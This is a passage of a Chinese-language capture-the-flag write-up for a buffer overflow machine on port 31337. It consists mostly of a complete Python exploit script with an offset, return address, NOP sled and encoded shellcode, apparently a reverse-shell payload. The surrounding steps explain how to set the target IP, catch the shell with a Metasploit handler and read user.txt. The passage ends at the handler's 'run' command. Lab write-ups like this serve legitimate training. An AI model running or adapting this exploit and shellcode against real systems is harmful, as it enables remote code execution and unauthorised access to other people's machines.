 
```

把上面生成的payload复制到下面攻击脚本，把ip地址改成远程靶机地址，保存为exploit4.py

```
import socket

ip = "10.10.97.198"
port = 31337

prefix = "OVERFLOW1 "
offset = 136 
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"

padding = "\x90" * 16

buf = ""
buf +="\xbb\xa9\xcd\x79\xdd\xdb\xdf\xd9\x74\x24\xf4\x5f\x2b\xc9\xb1"
buf +="\x5e\x31\x5f\x15\x03\x5f\x15\x83\xc7\x04\xe2\x5c\x31\x91\x52"
buf +="\x9e\xca\x62\x0d\xaf\x18\x06\x46\x9d\xac\x4e\xbd\xaa\x9f\x5c"
buf +="\xb5\xfe\x0b\x52\x7e\xb4\x15\x5d\x7f\xc3\x28\xb5\x4e\x13\x60"
buf +="\xf9\xd1\xef\x7b\x2e\x32\xce\xb3\x23\x33\x17\x02\x49\xdc\xc5"
buf +="\xc2\x3a\x70\xf9\x67\x7e\x49\xf8\xa7\xf4\xf1\x82\xc2\xcb\x86"
buf +="\x3e\xcc\x1b\x36\x35\x86\x83\x3c\x11\x37\xb5\x91\x24\xfe\xc1"
buf +="\x29\x6f\x30\xd5\xd9\x5b\xb9\x28\x08\x92\x7d\xeb\x7b\xd9\xd1"
buf +="\xed\x44\xd9\xc9\x9b\xbe\x1a\x77\x9c\x04\x61\xa3\x29\x9b\xc1"
buf +="\x20\x89\x7f\xf0\xe5\x4c\x0b\xfe\x42\x1a\x53\xe2\x55\xcf\xef"
buf +="\x1e\xdd\xee\x3f\x97\xa5\xd4\x9b\xfc\x7e\x74\xbd\x58\xd0\x89"
buf +="\xdd\x04\x8d\x2f\x95\xa6\xd8\x50\x56\x39\xe5\x0c\xc1\xf6\x28"
buf +="\xaf\x11\x90\x3b\xdc\x23\x3f\x90\x4a\x08\xc8\x3e\x8c\x19\xde"
buf +="\xc0\x42\xa1\x8e\x3e\x63\xd2\x87\x84\x37\x82\xbf\x2d\x38\x49"
buf +="\x3f\xd1\xed\xe4\x35\x45\x04\xf4\x5c\x3c\x70\x04\x5e\x2f\xdd"
buf +="\x81\xb8\x1f\x8d\xc1\x14\xe0\x7d\xa2\xc4\x88\x97\x2d\x3b\xa8"
buf +="\x97\xe7\x54\x43\x78\x5e\x0d\xfc\xe1\xfb\xc5\x9d\xee\xd1\xa0"
buf +="\x9e\x65\xd0\x55\x50\x8e\x91\x45\x85\xe9\x59\x95\x56\x9c\x59"
buf +="\xff\x52\x36\x0d\x97\x58\x6f\x79\x38\xa2\x5a\xf9\x3e\x5c\x1b"
buf +="\xc8\x35\x6b\x89\x74\x21\x94\x5d\x75\xb1\xc2\x37\x75\xd9\xb2"
buf +="\x63\x26\xfc\xbc\xb9\x5a\xad\x28\x42\x0b\x02\xfa\x2a\xb1\x7d"
buf +="\xcc\xf4\x4a\xa8\x4e\xf2\xb5\x2f\x79\x5b\xde\xcf\x39\x5b\x1e"
buf +="\xa5\xb9\x0b\x76\x32\x95\xa4\xb6\xbb\x3c\xed\xde\x36\xd1\x5f"
buf +="\x7e\x47\xf8\x3e\xde\x48\x0f\x9b\xd1\x33\x60\x1c\x12\xc4\x68"
buf +="\x79\x12\xc5\x94\x7f\x2e\x10\xad\xf5\x71\xa1\x8a\x16\x6c\x0f"
buf +="\xe7\xbe\x29\xda\x4a\xa3\xc9\x31\x88\xda\x49\xb3\x71\x19\x51"
buf +="\xb6\x74\x65\xd5\x2b\x05\xf6\xb0\x4b\xba\xf7\x90";


payload = buf
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

监听，执行，拿到初始shell和user.txt：
```
msf6 exploit(multi/handler) > run
